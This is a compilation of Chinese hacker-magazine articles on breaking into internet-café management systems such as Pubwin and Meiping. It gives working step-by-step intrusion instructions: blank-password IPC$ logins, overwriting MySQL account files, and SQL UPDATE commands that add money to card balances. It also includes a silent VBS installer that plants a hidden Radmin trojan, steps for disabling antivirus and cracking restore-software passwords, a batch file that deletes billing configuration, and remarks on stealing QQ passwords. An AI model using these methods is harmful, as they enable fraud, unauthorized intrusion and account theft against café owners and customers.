其实本人是很讨厌通过解除客户端限制来上网的。第一是不安全，第二是技术含量都没有……要入侵主机必须知道主机的 IP 地址……

知道 IP 之后就可以入侵了。大家一般都喜欢用 IPC 直接进去吧，我也是。OK！帐号 Administrator，密码空，成功进入主机 C 盘……看到主机屏幕，如图3。

为了安全起见，建议修改数据库内的数据来更改卡内金额信息……在 C 盘中找到 MYSQL 配置文件与账号密码，尝试覆盖、重启服务（`net stop mysql` / `net start mysql`）……

接下来连接远程 MYSQL 服务器，添加前面 ADMIN，前面说得很清楚，它是一个有远程连接权限的管理员账号。

```bash
E:\>mysql -h192.168.0.251 -uadmin -p
```

因为 Pubwin EP 把数据都放在 LOCAL 这个数据库内，所以我们先要跳转到这个数据库。执行 `MYSQL>use local;`，然后查看该数据库中一共有多少个表，`MYSQL>show tables;`，执行后能看到很多表，如图5。那么多表，究竟哪个才有金额信息呢？是 `cur_user` 这个表。先看看里面的数据结构吧，内容很多，如图6。

原来这个表内的内容是 Pubwin EP 服务端上显示的在线用户的数据，如果我们把这里面的金额信息修改掉（其中 PrePay 的值就代表钱数），那么 Pubwin EP 服务端显示的在线用户的余额信息也会相应改变。如此就实现了加钱的目的。执行 `mysql>update cur_user set prepay=1000 where uniqueid=4852436;` 执行成功后，注销当前卡号，然后去看一下卡上的余额，如图7。

这下大家也该明白“PrePay=1000”是什么意思了吧，1元=100，1000也就是10元，而 `uniqueID` 的值就是你要加钱的卡号。通过修改客户端余额的方法只适合对已经刷卡上机的卡加钱，如果你没刷卡上机怎么办？到数据库的 `mem_localmemberbaseinfo` 表中储存的是用户信息，当然也有余额数据了！要更改余额的数值很简单，只需要执行 `mysql>update mem_localmemberbaseinfo set Balance=2000 where uniqueid=你的卡号`，改完后刷卡上机，看一下你的余额，是不是变20元了啊！

#### 三、可视化数据库操作

下面介绍 GUI 版 `mysql.exe`——Mysql Query Browser。在使用前，我们还是要把 `User.myi`、`User.myd`、`user.frm` 这三个文件覆盖主机同名文件，然后重启 MYSQL 服务器，这样我们才可以用账号 `admin` 连接。打开 MYSQL QUERY BROWER 看到程序显示，如图8。

我们在 Server host 中填主机的 IP，3306 是 MYSQL 的端口。Username 中填我们新建的账号 admin（注意 admin 中的任何一个字母都不可以大写），Password 因为空密码所以不用填了。在最后一行中填上要连接的数据库 `local`，按确定后进入如图9所示的界面。

我们看到中间这一大块空白的地方就是用来显示数据库内容的，右边用来显示表段。最上面有一个大的输入框是用来输入命令的。我们双击表段然后点击“browserinfo”，会在输入框出现 `select * from mem_localmemberbaseinfo m`，然后我们点击“Execute”按钮后就可以直观地看到整个网吧的用户数据信息了。因为 Mysql Query Browser 不支持中文显示，所以用户名字都变成了乱码。我们把 `select * from mem_localmemberbaseinfo m` 改成 `select * from mem_localmemberbaseinfo where uniqueid=你的卡号`，按下绿色的“Execute”就可以了，其中 Balance 字段就表示你那张卡上的余额。

也许你会问：我的卡里有钱，但 Balance 上的数值怎么是0啊？那是因为 Pubwin EP 会在你那张卡上机后把数据变0，等你下机后再把新的余额写入。如果你的卡已经上机了，那么你只有改 `cur_user` 表段上相应的数值了，怎么改呢？按下“Edit”按钮，然后就可以双击数据更改数值了，把500改成1000或2000就随便了，改完后按“Apply changes”应用更改就好了，现在刷卡上机查看余额，是不是变成你想要的了？

#### 四、一些题外话

虽然已经找到了加钱的通道，但是笔者认为我们与 Pubwin EP 的斗争才刚刚开始。比如它的网页管理功能，我们是否已经了解得了呢？没有。还有 tomcat，像是经过 Pubwin 开发团队特殊编译出来的。我们在 tomcat 的网页目录中建立一个 HTML 文件，可以正常显示，但是建立一个 JSP 文件后会怎样，直接出现 Pubwin 网页管理登录页面，而不是普通 JSP 文件。本篇笔者准备再把 tomcat 做一个 JSP 本身后门的，但是现在看来也没有可能了，最后希望各位能和我们一起研究下去，彻底打败 EP。笔者才疏学浅，期待高手们指正文章中的错误！

### 菜鸟工具，玩转网吧

以前学校附近的网吧使用的都是 Win98 和 WinXP 系统，而最近网吧的电脑却都逐渐换成了 Win2000 了……不管如何，这却方便了我这个大菜鸟，拿出网吧D网络工具包就是一通查找，发现了大多数电脑都没有禁止 IPC$，接下来的事情就并不多了，利用木马种植机在网吧里种上木马，方便我们这些小菜鸟盗号了。不过网吧里都安装了还原精灵，电脑重启后我们的努力就白白浪费了。不过，只要这个共享资源存在，就已经足够我们玩了。我们先来使用局域网查看工具获取网吧电脑的 IP 地址，如图1。

然后我们点击“啊D网络工具包”里的“肉鸡查找”，结果发现有许多空口令电脑，而且还有版本鉴定，都是 Win2000（5.0），如图2。然后点击“共享查看”，发现有许多开着 IPC$ 共享的电脑，我们点击“木马种植机”，如图3。

在“本地文件”里选择我们要上传的木马服务端，我使用的是 Radmin。关于 Radmin 的配置，在以前的杂志里都曾经讲过，我就简单地说一下。我们先启动配置 `r_server` 程序来进行服务端的配置，再点击“设置参数”选项进行详细的设置。“端口”一项，默认使用的是 4899 端口，我们也可以更改成别的端口；对于“状态栏图标”我们应该选上“隐藏状态栏图标”，其他的使用默认设置就可以了，如图4。设置完参数后，我们点击“设置密码”，输入自己的连接密码，这个密码是 Radmin 客户端在连接服务端时要使用的。最后“安装服务”，配置完成。接下来我们做个自解压文件，先把注册表里的文件导出。开始—运行—REGEDIT，然后到（HKEY_LOCAL_MACHINE\SYSTEM\RADMIN）把 RADMIN 导出，随便起个名字。我们把 Radmin 安装根目录下 `AdmDll.dll`、`r_server.exe`、`raddrv.dll` 这三个文件复制过来。用记事本来编写一个 VBS 文件。

```vbscript
Set ws = WScript.CreateObject("WScript.Shell")
ws.Run "regedit.exe /s *.reg", 0
ws.Run "r_server.exe /install /silence", 0
ws.Run "r_server.exe /start", 0
```

“*.reg”是导入注册表文件，“*”就是导出的注册表文件名，必须与你导入注册表文件名字一样。然后另存为 `*.vbs`，名字也可以随便取。然后把这5个文件做个自解压文件，首先添加自解压文件，在常规里，我们选择“创建自解压格式压缩文件”，而压缩文件名可以随便取。点击“高级”里的“自解压选项”，在“解压路径”里填写“`%systemroot%/system32`”，在“安装程序”的“解压后运行”里填写你编写的 VBS 文件名。然后点击“模式”里的“安静模式”，选择“全部隐藏”，在“覆盖方式”里选择“覆盖所有文件”，确定即可。这个文件就是我们用木马种植机种植的本地文件。在“启动命令”里，我们就选定它默认的命令，点“开始”，会提示“1分钟后将自动运行任务”。这样我们在1分钟后就可以用 Radmin 连接对方电脑了。

打开 Radmin，点击“连接选项”，新建一个连接，在 IP 中填写你要控制电脑的 IP，在端口里面填写你连接电脑的端口，点击“确定”，如图5。会生成一个连接的图标，在“连接模式”里选择连接的方式，然后点击那个上面的图标，就会开始连接对方电脑了，一会儿出来连接密码框，在这里填入密码，就会执行你选定的命令了。图6是我连接别人的电脑的截图。呵呵，他正在玩街机游戏啊。至此，菜鸟在网吧里的一次入侵就演绎到了。

提起网吧黑客，大家的脑子里估计立即就把免费上网和网吧盗号和他们联系起来。笔者今天从这两个方面谈起，让奋斗在网吧的菜鸟们知道其实网吧黑客就那么的几招，同时也提醒网吧的网管们注意安全，给那些支持你们的网友们提供一个安全良好的上网环境。由于我所去过的20几个网吧使用的都是清一色的 pubwin，以下的管理软件全都是以 pubwin 为准。

### 一、pubwin 服务端设置不当造成免费上网

不知道大家留意过没有，pubwin 这个管理软件在默认安装下允许客户端更改使用方式。当然如果你所在的网吧已经不允许改使用方式的话，你就用不着往下看了。不过依笔者去过的这20几家网吧来看，只有2家注意到了这个问题，如图1。为什么允许改使用方式，我想主要的目的是使这个软件更具有灵活性。因为你可以在服务端为两种使用方式设定不同的价格，这也由此让免费上网成为可能。

原因是很多的网吧只设定了互联网价格，没有设定局域网的价格（默认为0）。如果我们用会员卡登录成功后，然后把使用方式改为局域网呢？你问我那不还是不能上网吗？现在你可以看到你的卡已经停止计费了。因为你的计算机目前还是受服务端控制的，所以你只能在局域网玩免费的棋盘游戏，如图2。

我们并不满足于此，我们可以把 pubwin 的客户端先给卸了。怎么样去卸载 pubwin4 的客户端，有很多的方法。方法一，搜索 `pubwin.exe`，然后改名并注销，不能重启，因为现在的网吧里都有还原精灵或者是还原卡。由于当时的我比较菜，想到这个方法并成功后，我兴奋得要命。不过这个方法有一个缺点，就是你卸载并注销机后是可以上网了，但是会出现个提示“拒绝系统发生错误”并一直出现，很是让人恼火，而且网管也容易发现。于是就有个第二种方法：打开注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`，如图3。删除 pubwin 和 run32dll。一定要删去 RunDll，不然的话你注销后就会发现 pubwin4 还会出来的。到此 pubwin 已经给卸载了，现在已经可以实现免费上网了。

几角钱而已。用这种方法笔者曾经免费玩了半年多的时间，后来告诉了几个要好的同学，不知道哪个同学给说了出来。后来发展到几乎全班还有别的班的同学天天一上网就抢雅座（很贵的），最终我们学校附近这种设置不当的网吧全部遭殃。真怀念5角钱上一天网的那段岁月啊，呵呵。修补的方法也是很简单的，就是把局域网和互联网的价格设置为一样就可以了。此外还可以通过在服务端把客户端设置为不允许修改使用方式，或者把允许修改使用方式的次数修改为0。笔者遇见的后一种情况如图4、图5。

我当时就想如果再把它给改回来不就又可以实现免费上网了吗？因为在客户端也是可以设置的，不过需要 pubwin 的管理员口令才可以（这个也是可以突破的）。进去之后我把客户端设置成可以修改使用方式……

## 网吧黑客

改的次数为 10，保存后退出，发现依然不可以。实验证明只有在服务端设置才能生效，不然又有空子钻了。

#### 二、直接绕过 Pubwin 上网

其实这种方法我在第一种方法里已经说了，不过这时我们可以不用登录直接上网。前提是网吧的计算机没有禁止一些热键。大家注意到没有，我们没有登录之前，出来的 Pubwin4 的框是没有开始菜单的，这时我们按窗口键或者是 Ctrl+Alt 就可以调出开始菜单，然后你就可以用上面的方法直接删注册表或者改 pubwin.exe 的名字，注销后就可以彻底免费上网了。不过要注意，由于没有用卡号登录，服务器显示的是你的计算机没有被使用，可能会被细心的网管发现，人多的时候更容易被发现。

如果存在上面的设置漏洞，建议用卡登录然后再删 Pubwin，这样就“合法”了。还可以屏蔽热键、禁止注销，再把 Pubwin 的服务端设置为客户端 30 秒（或更短）不登录就自动关机，不给那些想免费上网的网吧黑客足够的条件和时间去完成修改。

#### 三、终极 Pubwin 续费

当以上两种方法都失效的时候，如果条件成熟我们可以直接入侵网吧收费的主机，通过修改数据库为自己加钱。当然有个前提——不怕见警察叔叔和被拖出去打……经典的东西之所以经典，大概就是因为其能够长久地存在吧。

我所在的地方所用的系统全都是 Windows 2000，用 XP 的网吧只有一家，但是服务器是 2000，这也就足够了。不知道我们这里网吧管理员的自信，还是笔者的运气比较好，我在命令提示符输入 `net use M:\\网吧计费的计算机\装pubwin4服务端的那个盘$ "" /user:administrator`，回车，这样就把装 Pubwin 服务端的那个盘映射成我计算机上的 M 盘了。

现在由于网管的安全意识提高了，成功率就很小了。他们把一些默认的共享和端口全都给关了，这样一来 ipc$ 也就失效了。但是遗憾的是他们没有给 administrator 设置密码，这时我们可以用 Recton 这个工具……这个工具只要你有远程主机的管理员密码，并且远程主机的 135 端口和 WMI 服务都开启，那么你就可以通过这个小程序远程开 3389、远程开/关 telnet、远程运行 CMD 命令、远程清除所有日志、远程重启、查/杀进程、查看/启动/停止服务、查看/创建共享等。

右栏内容继续说明：如果在给会员充值期间操作数据库，会覆盖正在操作的数据并回到旧时间，造成网吧混乱；因此要迅速并选择没有人刷卡付费时操作。并指出该方法风险很高，可能在服务端留下记录。

又说明：很多网吧空管理员密码、共享未关、135 端口开启时容易成功；建议管理员设置复杂密码、不要和还原精灵共用密码、关闭默认共享及高危端口，特别是 135 端口；并提到 Windows 2003 SP1 默认更安全。

#### 四、装个 Pubwin 服务端

当没有以上漏洞的时候怎么办呢？还有一个办法，这是最危险的。我只是说方法，经验没有，我只实验过一次……然后在你的计算机上安装服务端，然后填上服务器的 IP，现在你可以控制网吧的计算机了。我们要控制的计费服务器是很危险的，不建议使用。

本来还想继续写，不过限于篇幅今天就写到这儿，希望大家喜欢我的这篇拙作。如果侥幸录用还请关注我的下篇，我会继续完成的。（本文涉及到的 Recton 光盘有收录）


图6

没关系，下载个 MSCOMCTL.OCX 到 system32 目录下就可以了。接着我们就可以 telnet 上去，传一个远程管理软件，进而控制网吧服务器，然后留个后门长久使用。怎么留后门长久控制网吧服务器，直接牵扯到你控制网吧的时间，可以说是一种艺术。找到会员卡数据库下载到本地修改，然后再上传到收费主机上覆盖以前的数据库即可。数据库在 pubwin 目录下的 `Pubsrv\Database` 里，分为临时卡数据库和会员卡数据库。


### 一分钟更改美萍网管密码

先来说说这几家网吧的大致情况：使用的网管软件几乎都是美萍，并且做了较严格的密码与安全设置。常见的网页、程序、文件类型限制较多，系统功能与硬盘相关功能也有隐藏或禁用。

作者回顾了以往破解方法，指出很多方法在该环境下受限或失效，因此转向研究软件本身的配置与注册表关系，寻找可行突破口。


通过对注册表键值与程序文件的反复比对，作者发现密码并非仅保存在注册表中，而是与 `smenu.jst` 文件存在对应关系；加密后的内容会写入注册表并由程序读取。


文章进一步说明：美萍存在自恢复机制，部分文件删除后会恢复到初始状态；因此要定位并处理关键文件（如 `smenu.jst`）并配合正确步骤，才能实现修改效果。

右栏介绍了在受限环境下通过“文件传送”等功能进入目标目录、定位并处理关键文件的操作思路，同时强调删除后需重启等步骤。


下半部分补充了安全防护相关内容：可通过防护工具阻止恶意修改关联、主页与搜索页；若被修改，可用历史记录或恢复功能回退，并配合 Hosts 文件策略进行加固。

### 网吧黑客宝典

最近我家附近新开了一家网吧，配置相当不错，更吸引人的是才 0.8 元一小时……我到网吧的第一件事就是下载魔兽世界的外挂，但下载时却提示不能下载，如图 1。


这种小儿科把戏难不倒我们这些 X 档案迷……不过这边网管似乎也是 X 档案迷，竟然把 QQ 硬盘给删除了！我只好打开在线下载网站，但又弹出禁用 ActiveX 提示。网吧对配置限制很多：禁止下载、禁止 ActiveX、禁止 Internet 选项、禁止进入 QQ 硬盘、禁止浏览盘符等。


它不依赖 ActiveX，采用最新的在线下载方式。打开网页后没有提示框，但它在后台下载迅雷软件；下载完后会提示保存路径。保存后再到指定路径查找迅雷安装文件……

以后事情大家可能会想到利用网吧精锐破解、灰色按钮克星之类工具突破权限。但当我把魔兽外挂下载并运行时，在选择游戏路径时又出问题。网吧一般把游戏装在 D 盘下，于是改从 A 盘寻找，仍然没有。随后发现网管将文件设为隐藏属性。


我尝试用网吧精锐破解这类工具仍然无效，只好去逍遥游网站找方法。得知其无盘工作站对文件采用特殊管理，普通方法看不到，只有管理员登录后启动文件管理器才能管理网吧内部文件。

找到默认密码 XX（不同版本可能不同，可在 Baidu 搜索），但默认密码登录仍提示错误。看来猜管理员密码不现实。于是考虑下载单纯的文件管理系统。经查询，逍遥游使用的是著名 Total Commander（简称 TC）。下载安装后运行 TC，整个网吧磁符会全部显示出来，如图 4。


删个文件试试——成功。此时若把木马与 QQ 可执行文件捆绑，可能盗取网吧用户 QQ 密码（并涉及无盘工作站安全）。文章最后提醒：号称安全的无盘工作站也并非无懈可击，在网吧上网要小心账号密码安全。

### 网吧黑客杂谈


战神 MARS

网吧是在校生上网的首选或经常光顾的地方。即便拥有属于自己的电脑，网吧仍是一个很好的上网场所——因为会有很多的 PLMM^_^。网吧是一个特殊的上网场所，由于是公共场所，一般会有许多限制。为了方便维护，通常会在机器上安装“还原精灵”之类的软件。

网民们在机子上“胡作非为”，只要机器一重启，一切都会恢复原状。通常机器上也会装上各种各样的杀毒软件，如诺顿、Symantec Antivirus 企业版、端星、金山等，生怕有什么不安分的网民给系统带来病毒。不过这样一来，他们系统倒是安全了一些，可苦害了我们这些网吧菜鸟。由于要学习黑客技术，免不了要和后门、木马、各种病毒、溢出程序打交道。

可是这些东西正是被那些杀毒软件深恶痛绝啊。它们可不会手下留情，绝对是见一个杀一个，来一对杀一双。这样一来，当小菜们从网上 DOWN 下来的木马或后门，可能还未解包就会被那些杀毒软件给 KILL 了。没法实践，对于小菜们学习技术就有点为难了，郁闷！

还有一个最重要的软件我还没有提到，那就是小菜们痛恨的网管软件。现在流行的网管软件挺多的，什么 Pubwin、万象、网络妙管家、方竹、美萍等等，网吧可是要靠它们来吃饭呀，各位网民的 money 也是被它慢慢地吞吃了。关于 Pubwin 的破解，文中列举了多篇相关经验文章，并说明当前多数网吧使用的是 4.3 版本，后续版本可能会有新的思路与方法。

接着文章回顾“偷天换日”方法：替换 pubwin.exe、结束进程、在系统任务栏出现图标后打开“系统设置”，通过“星号密码查看器”获取管理员密码。随后指出新问题：任务栏 Pubwin 图标可能直接消失，并出现 Pubwin 快捷方式窗口，导致原方法受阻。


在这种情况下，常见做法是重启机器；但由于还原类软件，重启后虽然快捷方式消失，系统也恢复为原有状态。文中转而建议使用 WINHEX：先下载并放在桌面，待出现 PUBWIN 快捷方式时，通过“显示桌面”图标快速切换环境，再配合 WINHEX 处理管理员密码问题。


随后说明：重新启动后系统恢复，但 PUBWIN 快捷方式也可能反复出现。Win2000 下可通过任务栏图标处理；WinXP 下虽无“显示桌面”图标，也可先启动 WINHEX，待 PUBWIN 快捷方式出现后点击任务栏中的 WINHEX 图标继续操作。

最后文章转入杀毒软件的破解问题，指出网吧环境中杀毒软件普遍存在，并以 Symantec Antivirus 企业版为例，介绍后续破解思路与方法。


面的软件也挺多的，卸载精灵就是一个不错软件，用起来挺简单的，大家可以去太平洋软件园下载来用。

- 方法一：禁用。  
  如果大家嫌上面的方法太麻烦的话，可以用此方法。该软件本身就有可以将杀毒软件禁用的地方。首先说一下，该软件在开机后自动将其在“任务栏”的图标隐藏。没关系！执行“开始\程序\Symantec Client Security\Symantec Antivirus 客户端”，打开 Symantec Antivirus 企业版的主程序界面，如图3。  
  接着打开“配置”\“文件系统实时防护”，该窗口有“启用文件系统实时防护”选项，将其前面的勾去掉，如图4。


图4

不过该方法有一个弊端，那就是在大约 30 分钟后程序又死灰复燃了。怎么办？继续前面的窗口。将“启用文件系统实时防护”选项前面的勾打上，再打开其后面的“高级（A）”。再打开“文件系统高级选项”窗口，注意第二项“自动启用”，就是它搞的鬼，如图5。好了，将其前面的勾去掉吧，完美禁用了！


图5

- 方法二：利用“计算机管理”中的服务和应用程序管理来将杀毒软件禁用，或者干脆停止它的服务。  
  打开计算机管理窗口，选“服务和应用程序\服务”，如图6。接下来在程序选项中找到 Symantec Antivirus，禁用即可。


图6

再来说一下网吧的 BUG 问题，我想网吧之所以存在这样那样的问题也不外乎有以下两个原因：

- 网管的安全意识不高。
- 网管们的技术普遍很菜，至少在网络安全、黑客技术方面是如此。

最安全了，一般不会存在多大的安全问题。所以通常对系统的维护检查就会很懈怠，软件的升级也不及时，这样一来使我们这些网吧小黑们有了可乘之机。

这样看来，网吧一定会存在这样或那样的安全问题。不过每个网吧的具体情况不一样，存在的问题也会很不一样。我所遇到的几家网吧大致都存在如下几个 BUG：

- 安装的软件泄密。网吧一般会将一些重要的软件放到一个目录中……这为网吧小菜们破解提供了莫大的方便。
- 密码保护意识和水平差。重要的密码强度不够，有些网吧为了方便直接使用默认密码或简单数字密码。
- 安全意识极差。软件不注意升级，像杀毒软件、Windows 系统升级包不及时更新，导致系统极易被破坏或被入侵。

好了，BUG 问题就探讨到这里。下面讲一下还原精灵的破解。开始之前，谈谈还原精灵的版本。还原精灵迄今为止已经有了很多版本，说实话我只见过三个版本：5.0、6.1 和 2002。为何要先了解软件版本呢？其实这也是没办法的事情：因为从破解的角度来说，不同版本的软件会有不同的方法，一些破解程序仅对特定版本有效，对其他版本则无能为力。如果你搞不清楚版本号，这破解则可能处处碰壁。

对于一些老版本的还原精灵我们可以手工破解，就是用 16 进制编辑工具 WINHEX 来获取其密码。因为它的密码是在软件内存中明文存放的，这个是 N 年前的方法了，现在已经不管用了。

在 05 年第 5 期《X档案》的硬盘还原卡解密“五虎将”一文中提及了一款纯 32 位的破解程序，如图7。


图7

再向大家推荐几款工具来破解还原精灵。第一个就是“精锐还原精灵密码读取器”，如图8。使用很简单，当你读不出密码时候把物理硬盘的框换成 1 或者 0、2 之类的数字即可，但在 Win2000 以上系统（包括 2000）运行才有效。


输入密码即可将还原精灵彻底清除。还有“还原精灵删除程序”，使用方法与前述工具类似。

第三个工具是“自动破解还原精灵最终版”。这些工具总体使用简单，适合初学者；一般网吧环境中配合几种工具即可解决问题。

## 上网服务级式实名核查系统也免费上网

我们先熟悉这类网吧环境：常见限制包括无“运行”、无“注销”、磁盘访问受限等。文章讨论了在受限客户端中寻找可用突破点的方法。


可行思路包括：结束管理软件进程、破解或绕过还原软件、在特定条件下进入安全模式。作者以“D网终工具包”等示例说明了实际操作路径。


文中提到存在进程守护时，可借助任务管理/辅助工具同时结束关键进程（如 CLIENTP、CLIENTBK）来实现突破。

作者在硬盘中发现 Deep Freeze（冰点）相关组件，推测系统重启后自动还原与其有关，并进一步尝试通过系统配置与注销流程规避还原。


操作步骤示例：在“运行”输入 `MSCONFIG`，取消可疑启动项，点击“确定”并选择退出不重启；再执行 `shutdown -l` 注销。


文中称该方法在测试环境中可实现“注销后不被还原”；并给出第三种方式：进入带网络连接的安全模式进行后续操作。

结论部分比较三种方法：第二种相对更安全，第三种成本最低但稳定性一般。并提示在人员较少时段操作，注意风险与时机。

### 网吧将 Pubwin EP 打下地狱

mypc59

在上期《黑客X档案》的“Pubwin EP全攻略”一文中，我已经向大家介绍了如何突破 MYSQL，实现 PUBWIN EP 加钱的方法，但限于篇幅的原因，还有一些方法我没有提到。因此，本文将继续教各位网客，以使各位菜鸟可以轻松地将 Pubwin EP 打入地狱^^


### 第一招：结帐定时法

其实这招非常简单，我们首先像平常一样去刷卡上机，进去以后马上选择“结帐下机”操作，接下来当然会像往常一样弹出消息窗口询问是否确定结帐下机，如图1。这时不要去点“是”或“否”，我们只要把消息窗口拖到一个比较隐藏的地方——比如任务栏下面，然后就可以上网了。如果想要下机的话，把刚才拖下去的消息窗口再拖出来，点一下“是”就可以了。等到下次再上机后，你会发现上次一分钱也没有扣掉，是真正的免费上网。

在使用这个方法的时候我还发现了一个问题：在免费上网的时候，如果进行“查看消费信息”的操作，那这个方法就功亏一篑了。所以众位操作的时候要小心哦，不要因为错误操作没有成功就怪此招不灵哦。

#### 第二招：系统还原法

现在的网管也不都是白痴，我们这儿有个网吧竟然硬将“结帐下机”功能给去掉了，原因是上次有人在用那招的时候被网管发现了。呵呵，这样的话我们前边介绍的那招就没用了。不知众位有没有发现安装有 Pubwin EP 的网吧都没有禁止 `Ctrl+Alt+Del` 这个经典组合呢？最起码我所在地区所有网吧都没有禁止。或许 Pubwin EP 的开发团体太高估自己产品的安全性了，认为没必要禁止这个功能吧。可这样一来又便宜了我们这些菜鸟。

我们只要按 `Ctrl+Alt+Del` 调出任务管理器，然后结束 Pubwinclient.exe 这个进程，这个世界就可以变得清净了！别高兴得太早，光结束这个进程还不够，系统会在指定时间关机（一般是在 5 分钟内），虽然只给了我们五分钟的时间，可这也已经足够了。选中“我的电脑”，然后单击右键选择“属性”，在弹出窗口依次选择“硬件”→“设备管理器”，然后把网络适配器中的硬件（其实就是网卡）禁止掉，如图2。


现在就不会在指定时间关机了。接下来我们找到 Pubwin EP 所在的文件夹（一般是 `C:\Program Files\Hintsoft`），先将 Hintsoft 目录改名，然后删除后者内所有文件夹（不包括子文件夹内文件），如图3。我们删除的是 Pubwin EP 的系统配置文件。接着将刚才禁止的网卡还原，之后打开 Pubwinclient.exe，不出意外的话系统又被锁定了。我们只要在卡号中输入 admin，然后按回车，一切就都解除了，现在我们又可以免费上网了。为了方便，我们可以做个批处理来加快速度。

```bat
@echo on
rem "高手还愁网卡后使用批处理"
ren C:\"Program Files"\Hintsoft Hintsoft2
del pubwin.cfg localcpn.conf Config.dat EnviPros.DAT pav.dat version.description *.xml
ren C:\"Program Files"\Hintsoft2 Hintsoft
pause "完成 请将网卡手动还原 然后执行Pubwinclient.exe"
```

到此，我的两个方法都介绍完了。不过不论是加钱还是突破客户端限制，都是非法的，终会被发现。因此本文最后请各位菜鸟牢记网吧黑客的四字金言：适可而止！

> **问：**我在对一个文件夹进行权限设置的时候发现，权限设置窗口中“允许”选项是灰色不可选，而“拒绝”一栏则正常，请问这是为什么？如何来解决？  
> **答：**造成“允许”不可选的原因是 NTFS 权限具有默认的权限继承功能。在文件夹权限安全设置窗口中选“高级”，打开高级设置窗口，将默认选中的“从父项继承那些可以应用到子对象的权限……”项去掉，就可以恢复“允许”一栏了。

### 美萍网管系列软件漏洞完全剖析

任晓瑶

我们当地的网吧使用的都是美萍网管系统。没办法，我也就只能研究美萍了。本文将详细探讨美萍网管大师与美萍电脑安全卫士这一网吧经典组合！

安全卫士如果不成功的话，可以在“注册号”栏里再多填一些字母，退出后“开始”栏会消失！玩一会儿游戏再回到桌面，一般情况下“开始”栏就出现了！原因不明！看到这儿，大家应该想到了，我们是通过程序执行错误这座山，来打的美萍这只牛！怎么样？呵呵！

#### 一、美萍电脑安全卫士的三大漏洞

安全卫士是网吧网管系统的客户端，我们常说的“网吧破解”，大多数是指破解客户端，使自己使用的这台电脑与网管系统脱离，从而达到免费上网的目的！自然，安全卫士就是我们破解网吧所遇到的第一只拦路虎！俗话说：“老虎也有打盹的时候。”下面我就介绍一下让这只“老虎”总是打盹的方法！可不是喂安眠药哟！

现在，懂得溢出含义的朋友应该明白我为什么管这一节叫“注册模块溢出漏洞”了吧！关于原理的猜测，我认为是美萍公司没有对安全卫士的注册模块做好容错测试，才会出现这样的错误！关于弹出“非法操作”的提示框我认为可能有两种原因：一是多出限定字符数的假注册码被系统执行，而我们填写的却是一些无用的信息，系统无法执行，所以报错（即我所担心类似于溢出的错误）；二是多出限定字符数的假注册码影响了程序的运行，从而导致报错！如果是第一种情况那可就严重了！大家想一想，我们输入的可是一些无用的字符，如果是可执行的命令呢？呵呵！是不是很恐怖呀？

##### 第一招：借力打力（.jst 文件漏洞）

关于此漏洞，我在06年第1期X档案上已经介绍过了。就简单地再给大家介绍一下漏洞的利用方法吧，至于其原理，请朋友们详细参考第1期的X档案。

此漏洞主要是利用美萍的软件保护机制来达到清空美萍管理员密码的目的，如果操作快的话，一分钟就可搞定！来看一下操作步骤。

首先要做的是打开QQ，通过QQ的“文件传送”传输功能可进入默认目录“My Documents”文件夹，再单击“上一页”按钮，进入C盘，找到“SMENU”文件夹后进入，并删除里面的“smenu.jst”文件！重启电脑，OK！看看密码是不是被清空了？这种方法是针对磁盘被隐藏的情况下进行的操作，如果破解版所在的网吧没有隐藏磁盘那就更好办了！总之你只要删除“SMENU”目录下的“smenu.jst”文件并重启就可以了！

##### 第二招：隔山打牛（注册模块溢出漏洞）

这个漏洞不是我发现的！所以还要在此感谢发现者赵学通朋友！关于这个漏洞的名字起得到底合不合理，我现在还不敢下结论！因为我只是看它的现象像溢出，自己也没去验证，所以还得请老鸟们帮忙验证一下！

用过美萍的都知道，在进入安全卫士后开始菜单会改为伪装（图1），仔细看里面是不是有一个“软件注册”选项？单击后进入软件注册窗口！在序列号栏里填入“w”，在注册号栏里填入“w”+“e”等字符，最好超过80个，字母可以随便填（图2），然后单击“注册”，成功的话会弹出提示，例如“该程序执行了非法操作……”的对话框，单击“关闭”即可退出安全卫士。

### 第三招：暗渡陈仓（文件漏洞代表 netlimit.cfg）

这是我在05年12月发现的，其实也算不上什么漏洞。不过自从发现后，我就一直在想，美萍为什么不改变设置文件内容明文保存的习惯呢？

关于美萍的文件漏洞，几乎处处都是！在此我选择一个具有代表性的 netlimit.cfg 文件漏洞。我们看一看 netlimit.cfg 文件在安全卫士里是做什么的。先看看美萍电脑安全卫士使用说明，在里面的“二、文件列表”里我们可以看到关于 netlimit.cfg 文件的叙述：“NETLIMIT.CFG 站点限制文件”，呵呵！你想到了什么？

好，用老方法进入“SMENU”文件夹，用记事本打开 netlimit.cfg 文件！你看见了什么？是不是什么都看得非常清楚？美萍怕我们不懂后面的英文是什么意思，图1后还给我们加上了注释（图3），呵呵！还等什么？统统都删了！再随便去个什么在线破解网吧设置的网站，按着想干什么就随你便哟。其实别的文件也可以用记事本打开！而且也是绝对的明文保存！你也可以用同样的方法更改，以达到自己的目的！

图3

只要你利用好这个漏洞，就可以神不知鬼不觉地修改安全卫士的一些重要设置！从而达到自己的目的，嘿嘿！叫“暗渡陈仓”，我想不过分吧？有的朋友肯定会问：“前面的那两种方法不是已经很好了吗？这个漏洞好像没什么必要吧？”好，我在这里就说一下它们的局限性与解决办法！

- **漏洞一**  
  缺点：清空密码，再改成自己的！听起来方法确实很好，但你还能改成原先的那个管理员密码吗？不能？管理员如果使用自己的密码去设置系统，却提示密码错误，他会想到什么呢？  
  补救：很简单，在删除“smenu.jst”文件前，先将它复制到别的文件夹，下机前再将它复制回去！

- **漏洞二**  
  缺点：有局限性，如果安全卫士已经注册，这个方法就会失效！  
  补救：目前没有有意义的解决办法！

- **漏洞三**  
  缺点：除了麻烦点，其他没什么缺点！使用这个方法既可以不完全破解美萍，又可以解除一些限制，也可以对美萍进行完全爆破！  
  补救：除了制作专用工具，别的没什么办法了！

到此，安全卫士的漏洞就算全部介绍完了！有了这些知识撑腰，我想小菜们应该也可以轻松破解美萍了吧！关于后面要讲的内容，都是建立在你已经成功入侵网吧主机的情况下才能进行的，欢迎大鸟们好好看看！当然，菜鸟学学也无妨。

netmoney.ini 文件，正是我刚才所做的更改收费标准的设置（图4）！为了保险，我又试了一遍。重新安装网管大师后，直接在其目录下新建一个 netmoney.ini 文件，并写入相关信息，到设置界面看看，成功（图5）。

## 网吧黑客

#### 二、美萍网管大师的三大漏洞

网管大师美萍已经发布了 N 个版本了，但是升级后的版本都修正了些什么问题，我是真的没看出来！下面所介绍的漏洞针对目前所有版本的网管大师都有效！

